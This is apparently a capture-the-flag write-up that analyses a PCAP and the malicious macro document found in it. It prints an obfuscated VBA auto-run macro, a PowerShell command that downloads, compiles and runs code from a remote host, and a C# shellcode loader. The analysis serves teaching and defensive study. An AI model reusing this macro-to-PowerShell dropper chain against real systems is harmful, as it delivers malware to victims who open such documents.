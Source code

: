 # Free flag - writeup
## Analyzing the PCAP file
When you open the challenge.pcapng, along with all the TCP trafic, you can see two files being downloaded - freeflag.docm, and d9d9dec9d5d2.
![alt text](images/image.png)
You can save them by going to File > Export Objects > HTTP in Wireshark
![alt text](images/image-1.png)

## Analyzing the freeflag.docm file
### Extracting the macro from the Word ducoument
As this is a macro enabled document, you can view the attached script by going to View > Macros:
![alt text](images/image-2.png)
Alternatively, you can use tools like [olevba](https://www.decalage.info/python/olevba) to extract macro without opening the docm file.
### Analyzing VBA code
This is the macro code:
```vba
Function XUX8BlCUMq5KoK8(lXKWfCUl1zmltYi() As Byte) As Byte()
    Dim EMtQJsAKYNXvFOd() As Byte
    ReDim EMtQJsAKYNXvFOd(UBound(lXKWfCUl1zmltYi))
    Dim nF7o4G7ab45k7fe(4) As Byte
    nF7o4G7ab45k7fe(0) = 222
    nF7o4G7ab45k7fe(1) = 173
    nF7o4G7ab45k7fe(2) = 190
    nF7o4G7ab45k7fe(3) = 239
    Dim HSnocyKymDfeVtw As Long
    For HSnocyKymDfeVtw = LBound(lXKWfCUl1zmltYi) To UBound(lXKWfCUl1zmltYi)
        EMtQJsAKYNXvFOd(HSnocyKymDfeVtw) = lXKWfCUl1zmltYi(HSnocyKymDfeVtw) Xor nF7o4G7ab45k7fe(HSnocyKymDfeVtw Mod 4) Xor &HBB
    Next HSnocyKymDfeVtw
    XUX8BlCUMq5KoK8 = EMtQJsAKYNXvFOd
End Function

Function BBjijsT7pS60iwZ(str As String) As Byte()
    Dim nrKM9I07nhiFKOO() As String
    Dim GHebfca2sCJaoCG() As Byte
    Dim vgrs5jtmF1aXSJF As Long
    nrKM9I07nhiFKOO = Split(str, ",")
    ReDim GHebfca2sCJaoCG(LBound(nrKM9I07nhiFKOO) To UBound(nrKM9I07nhiFKOO))
    For vgrs5jtmF1aXSJF = LBound(nrKM9I07nhiFKOO) To UBound(nrKM9I07nhiFKOO)
        GHebfca2sCJaoCG(vgrs5jtmF1aXSJF) = CByte(Trim(nrKM9I07nhiFKOO(vgrs5jtmF1aXSJF)))
    Next vgrs5jtmF1aXSJF

    BBjijsT7pS60iwZ = GHebfca2sCJaoCG
End Function

Sub AutoOpen()
Dim TP2lyf5wJk5RfdK As InlineShape
Set TP2lyf5wJk5RfdK = ActiveDocument.InlineShapes(1)
Dim ovVApsD7tsHJaAV() As Byte
ovVApsD7tsHJaAV = BBjijsT7pS60iwZ(TP2lyf5wJk5RfdK.AlternativeText)
KKPSYRKShOsPgGt = XUX8BlCUMq5KoK8(ovVApsD7tsHJaAV)
Dim txsptBa4S5TwPSY As String
txsptBa4S5TwPSY = StrConv(KKPSYRKShOsPgGt, vbUnicode)
Dim o4LCufGQYESakcZ As Object
Set o4LCufGQYESakcZ = CreateObject("WScript.Shell")
o4LCufGQYESakcZ.Run txsptBa4S5TwPSY, 0, True
End Sub
```
The script does three things:
1. Gets data from the alternate text of the first image in the document and converts it to a byte array:
```
Set TP2lyf5wJk5RfdK = ActiveDocument.InlineShapes(1)
Dim ovVApsD7tsHJaAV() As Byte
ovVApsD7tsHJaAV = BBjijsT7pS60iwZ(TP2lyf5wJk5RfdK.AlternativeText)
```
2. Decrypts the data and saves it to a string:
```
KKPSYRKShOsPgGt = XUX8BlCUMq5KoK8(ovVApsD7tsHJaAV)
Dim txsptBa4S5TwPSY As String
txsptBa4S5TwPSY = StrConv(KKPSYRKShOsPgGt, vbUnicode)
```
3. Creates the shell object and executes command contained in the string:
```
Dim o4LCufGQYESakcZ As Object
Set o4LCufGQYESakcZ = CreateObject("WScript.Shell")
o4LCufGQYESakcZ.Run txsptBa4S5TwPSY, 0, True
```
### Extracting the shell command
You can either get the bytes yourself and write a decryption script, or you can modify the macro to save the decrypted string to a file.
#### Manual decryption
1. Get the alternate text:
![alt text](images/image-3.png)
2. Decrypt it with a XOR key
```python
>> from pwn import *
>> a = [<alternate text>]
>> xor(a, xor(b"\xde\xad\xbe\xef", 0xBB)).decode()
```
#### Writing command to a file
Replace last line of the subroutine with following:
```
Open "<your file path>" For Output As #1
Print #1, txsptBa4S5TwPSY
Close #1
```
Both approaches should output the command:
```powershell
powershell -Command "Invoke-Command -ScriptBlock {$6gYiBaJnTQcMARy = \\"192.168.56.1\\";$DBFwswhgYKnCwxJ = (123974 - 152030 + 28874 + 519);$GPmlM4I7LVSUO9t = (\\"{3}{1}{4}{5}{0}{2}\\"-f\'d5\',\'d9\',\'d2\',\'d9\',\'de\',\'c9\');$98UxWBU8aY4OJFJ = [System.Text.Encoding]::UTF8;function MB9ERVf9riNRmuw {param ([byte[]] $tjjm1xYg4zJinVI);$DXRDV3GJeE7gone = New-Object byte[] $tjjm1xYg4zJinVI.Length;$t5wJRYluj7d0ieV = 13;for ($UGDhhObqc1FJ1Vk = 0; $UGDhhObqc1FJ1Vk -lt $tjjm1xYg4zJinVI.Length;$UGDhhObqc1FJ1Vk++) {$DXRDV3GJeE7gone[$UGDhhObqc1FJ1Vk] = $tjjm1xYg4zJinVI[$UGDhhObqc1FJ1Vk] -bxor $t5wJRYluj7d0ieV;$t5wJRYluj7d0ieV = $t5wJRYluj7d0ieV -bxor 37 -bxor ($UGDhhObqc1FJ1Vk % 0xBB) };return $DXRDV3GJeE7gone};[byte[]] $FFpqmSFabhns282 = 67,58,92,87,105,110,100,111,119,115,92,77,105,99,114,111,115,111,102,116,46,78,69,84,92,70,114,97,109,101,119,111,114,107;$XqpH6qchzQzxaIl = (gci ($98UxWBU8aY4OJFJ.GetString($FFpqmSFabhns282)) -R -Fi (\\"{4}{6}{1}{3}{5}{2}{0}\\" -f \'e\',\'c\',\'x\',\'.\',\'c\',\'e\',\'s\'));if ($null -eq $XqpH6qchzQzxaIl.Exists) {exit} else {$XqpH6qchzQzxaIl = $XqpH6qchzQzxaIl.FullName};$TYVxBiSN7LYP1B3 = (iwr \\"${6gYiBaJnTQcMARy}:${DBFwswhgYKnCwxJ}/${GPmlM4I7LVSUO9t}\\" -UseBasicParsing).Content;$TYVxBiSN7LYP1B3 = MB9ERVf9riNRmuw $TYVxBiSN7LYP1B3;$6fNCDEaFmB9lcOg = \\"${Env:TEMP}\\ea98cjme\\";$FbPIDO60oanqD7k = \\"/out:${Env:TEMP}\\ea98cjme.exe\\";Set-Content -Path $6fNCDEaFmB9lcOg -Value $TYVxBiSN7LYP1B3 -Encoding Byte -NoNewline;& $XqpH6qchzQzxaIl $FbPIDO60oanqD7k $6fNCDEaFmB9lcOg;& \\"${Env:TEMP}\\ea98cjme.exe\\";rm $6fNCDEaFmB9lcOg}"
```
## Analyzing the PowerShell script
After the deobfuscation, the code can look close to this:
```powershell
$ip = "192.168.56.1"
$port = 1337
$filename = "d9d9dec9d5d2"

function Decrypt {
    param (
        [byte[]] $buffer
    )
    $out = New-Object byte[] $buffer.Length
    $xor_key = 13
    for ($i = 0; $i -lt $buffer.Length;$i++) {
        $out[$i] = $buffer[$i] -bxor $xor_key
        $xor_key = $xor_key -bxor 37 -bxor ($i % 0xBB) 
    }
    return $out
}
$cscpath = (gci -Path "C:\Windows\Microsoft.NET\Framework" -Recurse -Filter "csc.exe" -File)
if ($null -eq $cscpath.Exists) {
    exit
} else {
    $cscpath = $cscpath.ToString()
    "${Env:TEMP}" | Out-Default
}
$byteArray = (Invoke-WebRequest -Uri "${ip}:${port}/${filename}" -UseBasicParsing).Content
$byteArray = Decrypt $byteArray
$outpath = "${Env:TEMP}\ea98cjme"
Set-Content -Path "${Env:TEMP}\ea98cjme" -Value $byteArray -AsByteStream -NoNewline
& $cscpath $outpath "/out:${Env:TEMP}\ea98cjme.exe"
& ${Env:TEMP}\ea98cjme.exe
```
It does the following:
1. Checks for the presence of the C# compiler (csc.exe)
2. If present, downloads d9d9dec9d5d2, decrypts it and saves it in the temp director as ea98cjme.
3. It then compiles the file and runs the created executable.
## Extracting and analyzing the C# file
Extraction is nearly the same as in the case of the VBA script. You can either decrypt it manually, or modify the script to do it for you. I will use a python script:
```python
def decrypt(buffer):
    out = []
    xor_key = 13
    for i, byte in enumerate(buffer):
        out.append(byte ^ xor_key)
        xor_key = xor_key ^ 37 ^ (i % 0xBB) 

    return out

with open("d9d9dec9d5d2", "rb") as f:
    enc = f.read()

print(''.join(map(chr, decrypt(enc))))
```
which outputs the following:
```csharp
using System;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    public static extern bool VirtualFree(IntPtr lpAddress, uint dwSize, uint dwFreeType);
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out uint lpThreadId);
    [DllImport("kernel32.dll")]
    public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
    public static void Main()
    {
        byte[] buf = new byte[] {0xd9,0xec, ... (snipped) ... 0xb7};
        IntPtr allocMemAddress = VirtualAlloc(IntPtr.Zero, (uint)buf.Length, 0x1000 | 0x2000, 0x40);
        Marshal.Copy(buf, 0, allocMemAddress, buf.Length);
        uint threadId;
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, allocMemAddress, IntPtr.Zero, 0, out threadId);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}
```
You could compile it yourself and run it in a sandbox such as [ANY.RUN](https://any.run/), which will output the flag:
![alt text](images/image-4.png)

Or, if you correctly assume that buf contains shellcode, you also can simulate its behavior with a tool like [scdbg](http://sandsprite.com/blogs/index.php?uid=7&pid=152), which will also output the flag:
![alt text](images/image-5.png)